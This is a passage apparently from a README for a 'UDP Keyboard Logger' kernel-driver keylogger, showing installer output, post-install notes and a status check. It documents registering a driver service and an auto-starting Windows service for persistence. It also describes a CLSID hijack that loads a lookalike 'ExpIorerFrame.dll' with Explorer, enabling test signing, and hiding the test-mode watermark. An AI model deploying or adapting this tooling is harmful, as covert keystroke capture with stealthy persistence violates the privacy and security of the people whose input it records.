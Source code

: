 ```
Step 4/6: Registering driver service...
  • Creating SYSTEM\CurrentControlSet\Services\kvckbd
  • Writing ImagePath, Type, Start values
  [SUCCESS] Driver service registered (reboot required)

Step 5/6: Installing Windows service...
  • Creating service UdpKeyboardLogger
  • Setting automatic start
  [SUCCESS] Service installed

Step 6/6: Starting service...
  [SUCCESS] Service started

[SUCCESS] Full installation completed successfully

+============================================================+
|  System reboot is REQUIRED for changes to take effect.     |
+============================================================+

Reboot now? (Y/N):
```

**Post-Installation:**
After reboot:

- Driver loads automatically (Start=2)
- Service starts automatically
- CLSID hijack active (loads with Explorer)
- Test mode watermark appears (can be suppressed by ExpIorerFrame.dll)

### Verification

**Comprehensive Status Check:**
```cmd
UdpLogger.exe status
```

**Example Output:**
```
=== UDP Keyboard Logger - Full System Status ===

[+] Windows Service: RUNNING (UdpKeyboardLogger)
[+] Kernel Driver: LOADED (kvckbd.sys)
[+] CLSID Hijack: ACTIVE (ExplorerFrame.dll -> ExpIorerFrame.dll)
[+] Test Signing: ENABLED (BCD)
[+] Files: All components present

Overall Status: FULLY OPERATIONAL
```
